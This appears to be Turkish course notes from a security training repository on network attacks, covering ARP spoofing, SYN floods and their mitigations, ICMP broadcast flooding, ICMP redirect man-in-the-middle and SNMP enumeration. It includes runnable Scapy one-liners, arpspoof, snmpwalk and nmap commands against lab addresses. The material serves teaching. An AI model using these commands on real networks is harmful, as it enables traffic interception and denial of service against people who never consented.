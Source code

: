 ## Network Saldırıları

**- ARP Kullanılarak Yapılabilecek Saldırı Örnekleri:** Haberleşmek isteyen sistemlerin ya haberleşememesine sebep olmak ya da haberleşmeleriyle ilgili olan kısma kendisini de dahil etmektir. Maksat zarar vermek ise, servis dışı etmek için kullanılabilir(DoS). Maksat fayda sağlamak ise hedefin trafiğinin kendi üzerimizden geçmesini sağlamaktır. Trafiği kendi üzerimizden geçirdiğimiz saldırı türü Man in the Middle(MITM) olarak adlandırılır.

**- İşleyiş:** Attacker, server ile client arasında ARP ile bağlantı kurar. Attacker, server'in IP adresine kendi MAC adresini ekleyerek client'e ARP paketi yollar. Client'in ARP tablosundaki IP-MAC değerleri yoksa yazılır, varsa saldırganın yolladığı şekilde güncellenir. Bir sonraki isteği client, saldırgana yollayacaktır. Eğer saldırgan aynı işlemi server için de yaparsa (kendi IP'sini client olarak gösterip MAC adresine kendi MAC adresini vermek) Man in the middle saldırısı olacak ve trafik saldırganın üzerinden geçecek. Eğer saldırgan server için bu işlemi yapmazsa client cevap alamayacak ve servis dışı kalacak(Dos). 

**- Uygulama:**

    -Server IP: 192.168.0.23, MAC:00:0c:29:6b:f3:9f
    
    -Client IP: 192.168.31.31, MAC:00:0c:29:6b:97:48
    
    -Attacker IP: 192.168.0.105, MAC:00:0c:29:f0:0b:61

    => scapy
    
    => sendp(Ether(dst="00:0c:29:6b:97:48")/ARP(op=2,psrc="192.168.0.23",pdst="192.168.31.31",hwsrc="00:0c:29:f0:0b:61",hwdst="00:0c:29:49:97:48")) 
    
    => sendp(Ether(dst="00:0c:29:6b:f3:9f")/ARP(op=2,psrc="192.168.31.31",pdst="192.168.0.23",hwsrc="00:0c:29:f0:0b:61",hwdst="00:0c:29:49:f3:9f"))
    
    => echo 1 > /proc/sys/net/ipv4/ip_forward/ (router = 1 yapma işlemi)

  * Tool kullanarak:
    
    => arpspoof -i eth0 -c both

**- SYN Flood:** Sahte bir IP ile sürekli SYN paketi yollanır. Yollanan paketleri hedef SYN tablosunda tutar. Hedefin döndürdüğü SNY+ACK paketi boşa gideceği için cevap gelmez ve tablonun boyutu artar (DoS). 

  * **Alınabilecek önlemler:** 
  
  **1.** Tablonun boyutunu arttırmak (Maliyet + çözüm değil). 
    
  **2. Syn proxy:** (Syn proxy'i bütün portlara syn yollayarak tespit edebiliriz. Eğer kapalı port yoksa syn proxy ile karşı karşıya olduğumuzu anlarız.) Hedef ile aramızda durarak SYN paketlerini kendi üzerine alır SYN+ACK gönderir. ACK geri geldiğinde paketi hedefe ulaştırır. 

  **3. Syn proxy cookie:** Threeway Handshake esnasında değişmeyen 4 bilgi var. Bunlar: Source IP, Source Port, Destination IP, Destination Port. Makine bir fonksiyon ile bu 4 bilgiyi ve bir de makine çalıştırılmaya başladığında RAM de random oluşan bir değeri topluyor. Ardından bu "toplam"ı SYN isteği yollayan makinelere SYN+ACK döndüreceği zaman sequence number olarak kullanıyor. Kendisine threeway handshake'in son aşaması olan ACK paketi döndüğünde ACK sayısı "toplam"+1 olmak zorunda. "toplam"+1 den 1 çıkarıp gelen ACK paketini doğruluyor.

**- UDP/ICMP kullanılarak yapılabilecek bir saldırı:** İç ağdayken ağdaki herkese kaynak IP, hedefin IP'si olarak gösterilip ping yollanır. Herkes birden hedefe ping reply döner. 

  **- Uygulama:**

    => echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts (broadcast yapabilmemiz için bu dosyanın değerinin 0 olması gerek, yoksa icmp paketlerini broadcast olarak yollayamayız.)
    
    => scapy
    
    => send(IP(src="hedef",dst="broadcast")/ICMP(type=8),loop=1)

**- ICMP Redirect(type=5):** ICMP Redirect mesajı, kendisine ulaşmak isteyen makineye bir router(yönlendirici) tarafından eğer bağlanabileceği daha iyi bir router varsa, bunun bilgisini döndürür.

**- ICMP Redirect ile Man in the Middle Attack (ICMP type=5):** Hedefe daha iyi bir router olduğunu, bu router'in biz olduğumuzu söylediğimiz saldırı. Bu sayede hedef bizi router olarak kullanmaya çalışacak, hedefin trafiğini üzerimize alacağız. 
      => scapy
      
      => send(IP(src="192.168.0.1",dst="192.168.0.9")/ICMP(type=5,code=1,gw="192.168.0.10")/IP(src="192.168.0.9",dst="46.45.154.70")/TCP(flags="S",dport=80,sport=5555))

**- SNMP (Simple Network Management Protocol):** SNMP, UDP Protokolü ile çalışır. 161 portunu kullanır.

**- MIB/OID:** Ağın dallara ayrılarak hangi dalın kaçıncı MIB'i şeklinde bir sorguya dönen bilgiler OID diye geçer. Bu bilgilerle MIB içerisinde konumunu bildiğimiz bir makinenin OID bilgilerine ulaşabiliriz.

  - MIB sayılarla ifade edilir. Alt dallara geçmek için araya nokta konur. 
  
  - Örnek: .1.3.6

**- Community String:** SNMP paketi içerisinde yer alan bir bilgidir. 

  * SNMP paketi içerisinde yer alan community string'ler: Public(read only), private(write). Community string ele geçirilerek bu yetkiler elde edilebilir.

  * Üç versiyon vardır. V1 ve V2 Community String üzerinden gider. V3 ise username-password'da kullanır.

  **- Uygulama:**  
    
    => snmpwalk -v 1 -c public 192.168.0.39 .1.3.6.1.2.1.2.2

  * İnternette "linux system oid's" şeklinde arama yapılarak OID örneklerine ulaşılabilir.

**- Ödev:** 192.168.0.39'dan SNMP ile bilgi topla:

    => snmpwalk -v 1 -c public 192.168.0.39 .1.3.6.1.2.1.2.2

    - NMAP ile: => nmap -p161 -T5 -sU --script=snmp-*.nse 192.168.0.39 -vv

## Soru-Cevap

- TCP/UDP'de yapacağımız IP sahteciliği (IP Spoofing) başarılı olabilir mi?

  * TCP içerisinde çok zor. Eğer seq/ack sayılarına sahipsek yapabiliriz. UDP içerisinde ise herhangi bir doğrulama sistemi olmadığı için basitçe yapılabilir.

###### Notlar 

- TCP'de IP spoofing, olmayan bir IP spoof edilerek karşıya kör(blind) bir şekilde, cevapları almadan sürekli paket yollanılarak yapılır. Eğer spoof ettiğimiz IP gerçekten kullanılıyor ise, RST döner.

- [Scapy ile SYN Flood ödevi](Syn_Flood/syn_flood.py)

- [Scapy ile SNMP bilgi toplama ödevi](Scapy_SNMP/scapy_snmp.py)

